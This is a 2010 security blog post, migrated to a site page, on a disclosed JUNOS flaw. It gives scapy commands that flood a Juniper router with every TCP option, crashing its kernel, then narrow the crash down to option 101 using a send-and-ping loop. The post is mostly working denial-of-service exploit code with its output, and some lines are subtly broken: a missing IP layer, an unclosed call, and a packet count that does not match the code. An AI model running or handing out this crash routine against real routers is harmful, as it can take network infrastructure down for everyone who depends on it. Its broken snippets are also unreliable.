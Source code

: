 ```yaml
---
layout: page
title: Juniper Kernel Crash - scapy Code
categories: 
  - security
  - networking
  - programming
tags: 
  - juniper
  - tcp
  - option-101
  - networking
  - crash
  - junos
  - migrated
author: jrossi
teaser: |
    Code Following the Juniper kernel flaw posts, we received a number of inquiries regarding how 
    to determine the option value to use, however we were somewhat reluctant to provide 
    that level of detail. Now that [exploit code has been published](http://evilrouters.net/2010/01/09/junos-psn-2010-01-623-exploit/) 
    elsewhere, there is little reason not to answer this question.
---
```



On January 6th, we wrote about [a JUNOS flaw](http://praetorianprefect.com/archives/2010/01/junos-juniper-flaw-exposes-core-routers-to-kernal-crash/) 
that caused a kernel crash in Juniper routers and demonstrated 
the [effect in action](http://praetorianprefect.com/archives/2010/01/junos-juniper-kernel-crash-video/) 
in a video. At the time Juniper was not making details of the advisory public, however since 
then [PSN-2010-01-623](http://osvdb.org/ref/61/juniper-PSN-2010-01-623.txt) has shown up on 
the Open Source Vulnerability Database under entry [61538](http://osvdb.org/61538).

Following the Juniper kernel flaw posts, we received a number of inquiries regarding how 
to determine the option value to use, however we were somewhat reluctant to provide 
that level of detail. Now that [exploit code has been published](http://evilrouters.net/2010/01/09/junos-psn-2010-01-623-exploit/) 
elsewhere, there is little reason not to answer this question.

To test all possible TCP options using [scapy](http://www.secdev.org/projects/scapy/) 
(a python based packet manipulation program), first download the latest copy of 
scapy (including all library dependencies) from their 
[Mercurial code repository](http://hg.secdev.org/scapy/) as shown below:

```
$ hg clone http://hg.secdev.org/scapy/
$ cd scapy
$ python setup build
$ sudo python setup install
```

Start scapy as root:

```
$ sudo run_scapy
INFO: Can't import python gnuplot wrapper . Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: No route found for IPv6 destination :: (no default route?)
Welcome to Scapy (2.1.0-dev)
>>>
```

We started this particular test by first creating an IP packet with a destination of the Juniper test router instance named 'ipl'.

```
>>> ipl = IP(dst="172.17.20.102")
>>> ipl
```

Initially we tested all TCP options as fast as possible just to see if it was possible to reproduce the 
reported vulnerability (a kernel crash that causes the router to reboot).

```
>>> send([ipl/TCP(dport=23, options=[(x, "")])/"bye bye" for x in range(256)])
................................................................................................................
................................................................................................................
................................
Sent 256 packets.
```

The previous command created 255 packets with every possible TCP option, sent them all 
at once, and the router crashed. While this performed as expected, it only told us 
that we were on the right track (the advisory was correct, an option setting 
crashes the router), however it does not tell us which option.

The scapy tool can send a ping following each test packet to see if the router 
is still up and responding, as demonstrated:

```
>>> for x in range(255):
...   send(ipl/TCP(dport="22", options=[(x,"")])
...   if not sr1(/ICMP(), retry=-1, timeout=1, verbose=0):
...     print "we have a winner: %s"%(x)
...     break
...
we have a winner: 101
```

Now that we have a winner, we know which option value caused the kernel crash 
Juniper reported.

